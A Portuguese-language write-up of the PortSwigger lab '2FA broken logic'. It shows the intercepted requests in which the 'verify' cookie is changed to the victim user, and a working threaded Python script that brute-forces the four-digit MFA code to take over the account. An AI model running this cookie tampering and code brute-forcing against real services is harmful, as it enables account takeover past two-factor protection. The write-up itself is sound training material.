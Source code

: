 ```yaml
---
title: 2FA Broken Logic
date: 2024-03-23 19:35:00 +0300
categories: [anotacoes, web application security, weblogic]
tags: [anotacoes, web application security, weblogic]     # TAG names should always be lowercase
---
```



## PortSwigger Lab: Escopo

Esse laboratório demonstra uma vulnerabilidade de 2FA, abaixo temos os dados para realiza-lo:

- A autenticação de dois fatores deste laboratório é vulnerável devido à sua falha lógica. Para resolver o laboratório, precisamos acessar a página da conta do Carlos.
- credenciais: wiener/peter
- Nome de usuário da vítima:carlos
- Acesso ao servidor de e-mail para receber seu código de verificação 2FA.

## Analisando a requisição POST
**1** - Ao acessar o lab, com o Burp em execução, fiz login com a conta wiener e analisei o processo de verificação 2FA. Observamos que na requisição POST /login2 onde o parâmetro verify é utilizado para determinar qual conta do usuário está sendo acessada.
```bash
POST /login HTTP/2
Host: example.web-security-academy.net
Cookie: verify=wiener; session=yoursession
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://example.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7

username=wiener&password=peter
```

## Solicitando o código 2FA para a conta ***carlos***
Após a analise, sai da conta wiener e enviei uma requisição GET /login2, alterando o parâmetro verify para carlos, dessa forma um código 2FA temporário foi gerado para o usuário carlos. 

```bash
GET /login2 HTTP/2
Host: example.web-security-academy.net
Cookie: verify=carlos; session=yoursession
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7
```

## Criando script python 
Em seguida fui até a página de login, digitei o usuário e senha do usuário wiener e coloquei um código inválido. Por fim enviei uma requisição POST /login, definindo o parâmetro verify=carlos e adicionando um payload ao parâmetro mfa-code que também foi encontrado no inicio da análise. Utilizando o Intruder no Burp Suite é possível fazer um brute-force para descobrir o código 2FA de 4 digitos porém esse processo pode ser muito lento se você não tem a versão profissional. Por isso fiz um script em Python que trabalha com ThreadPoolExecutor para enviar diversas requisições simultaneas, facilitando o processo de descoberta e evitando expirar a sessão do laboratório, além de identificar quando o código da resposta da solicitação for 302 e analisando o tamanho de cada resposta em bytes:
```python
import requests
import concurrent.futures

url = 'https://example.web-security-academy.net/login2'
headers = {
    'Host': 'example.web-security-academy.net',
    'Cookie': 'verify=carlos; session=yoursession',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '"Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36',
    'Origin': 'https://example.web-security-academy.net',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://example.web-security-academy.net/login2',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
    'Connection': 'close'
}

def send_request(mfa_code):
    payload = {'mfa-code': f'{mfa_code:04d}'}
    response = requests.post(url, headers=headers, data=payload)
    if response.status_code == 302:
        print(f'Success! Code is: {mfa_code:04d}, Response size: {len(response.content)} bytes')
    else:
        print(f'Tried code {mfa_code:04d}, Status code: {response.status_code}, Response size: {len(response.content)} bytes')

# Define a função principal para execução concorrente
def main():
    # Usando ThreadPoolExecutor para criar várias threads
    with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
        # Enviar solicitações para códigos MFA de 9999 a 0000
        executor.map(send_request, range(9999, -1, -1))

if __name__ == "__main__":
    main()
```
## Autenticação bem sucedida
Após a execução do script, descobrimos o valor do código 2FA e conseguimos completar o laboratório obtendo acesso a conta do Carlos.

![weblogic](https://i.imgur.com/qCHA9CW.png)

- Referências: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic